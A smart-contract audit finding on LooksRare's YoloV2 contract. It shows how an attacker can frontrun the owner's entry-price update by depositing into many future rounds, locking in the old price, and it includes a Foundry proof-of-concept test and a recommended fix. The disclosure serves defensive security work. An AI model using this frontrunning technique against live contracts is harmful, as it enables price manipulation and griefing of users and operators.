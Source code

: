 Acrobatic Flint Lobster

medium

# Frontrunning: Calls to `updateValuePerEntry(uint96)` may be frontrun to secure preferable `roundValuePerEntry`s.

## Summary

When a trusted [`owner`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1499C22-L1499C40) makes a call to [`updateValuePerEntry(uint96)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L792C5-L798C6), an attacker with a preference for the current [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) may frontrun using [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312) in an effort to lock the current [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) for an attacker-controlled number of rounds.

This can lead to griefing and a competitive advantage for attackers.

## Vulnerability Detail

When making a call to [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312), an account may deposit into `amounts.length - 1` future rounds.

This carries the implicit effect of initializing and caching the current price of a [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) against one of the affected future rounds:

```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    
    // ...

    for (uint256 i; i < numberOfRounds; ++i) {
        uint256 roundId = _unsafeAdd(startingRoundId, i);
        Round storage round = rounds[roundId];
        uint256 roundValuePerEntry = round.valuePerEntry;
        if (roundValuePerEntry == 0) {
@>          (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
        }

        // ...
    }

    // ...

}
```

If an adversary with preferences for the current entry price were to detect an undesirable call to [`updateValuePerEntry(uint96)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L792C5-L798C6) in the mempool, it would be possible for them to front run with [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312), which would have the effect of reserving the current [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) for the number of rounds specified by the attacker:

```solidity
function test_sherlock_latchCurrentPrice() public {

    uint256 numberOfRounds = 100;
    uint256[] memory amounts = new uint256[](numberOfRounds);

    address _ATTACKER = address(0x69);

    // Prepare sufficient ether.
    vm.deal(_ATTACKER, numberOfRounds * 0.1 ether);

    for (uint256 i; i < numberOfRounds;) {
        amounts[i] = 0.1 ether;
        unchecked { ++i; }
    }

    /// @dev Deposit for a future number of rounds.
    vm.prank(_ATTACKER);
    yolo.depositETHIntoMultipleRounds{value: numberOfRounds * 0.1 ether}(amounts);

    for (uint256 i; i < numberOfRounds; i += 1) {

        (IYoloV2.RoundStatus status, , , uint40 cutoffTime, uint40 drawnAt, , address winner, uint96 roundValuePerEntry, , ) = yolo.getRound(i + 1);

        assertEq(roundValuePerEntry, 0.01 ether);

    }

    /// @dev The owner attempts to update the `roundValuePerEntry`.
    vm.prank(owner);
    yolo.updateValuePerEntry(1 ether);

    /// @dev We can assert the `roundValuePerEntry` has been increased.
    assertEq(yolo.valuePerEntry(), 1 ether);

    // However, the attacker managed to cache the older, cheaper entry price!
    for (uint256 i; i < numberOfRounds; i += 1) {

        (IYoloV2.RoundStatus status, , , uint40 cutoffTime, uint40 drawnAt, , address winner, uint96 roundValuePerEntry, , ) = yolo.getRound(i + 1);

        /// @notice The price is still locked.
        assertEq(roundValuePerEntry, 0.01 ether);

    }

}
```

Further, for excessively long arrays of [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312) (such as those exploiting the zero-amount deposit bug raised separately, which permits arbitrarily long arrays at negligible cost), it would be possible to effectively nullify the effects of an owner's call to [`updateValuePerEntry(uint96)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L792C5-L798C6) for an extensive period of time. In this scenario, we do not require the attacker to even have a particular preference for the entry price, or even anticipation of an update in the mempool - this is instead just a form of griefing.

The attack can be structured in the form of initializing each round with a minimum number of two participants, preventing the round from being cancelled through standard means, instead being closed out through the last resort [`cancel(uint256 numberOfRounds)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L429).

## Impact

The most realistic impact of this is griefing of the protocol owner, who must explicitly [`cancel(uint256 numberOfRounds)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L429) the specified rounds to attain the desired [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197), and for the users who may suffer increased gas fees to either [`rolloverETH(WithdrawalCalldata[],bool)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L643) or [`withdrawDeposits(WithdrawalCalldata[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L598C14-L598C81).

Manual resolution of the issue will both degrade UX and incur transaction costs for affected users, considering their means of resolution is pull-payment based.

Additionally, since off-chain callers will use the public [`valuePerEntry()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) to determine transaction value, it is possible for an attacker to induce information asymmetry between the intended amount of entries minted, versus the realized number of entries, which gives rise to a competitive advantage against unsuspecting users.

## Code Snippet

```solidity
/**
 * @inheritdoc IYoloV2
 */
function updateValuePerEntry(uint96 _valuePerEntry) external {
    _validateIsOwner();
    _updateValuePerEntry(_valuePerEntry);
}
```

## Tool used

Vim, Foundry

## Recommendation

Consider introducing a restriction on the maximum number of future rounds that can be deposited into i.e. place an upper bound on the length of [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312) in a call to [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312).
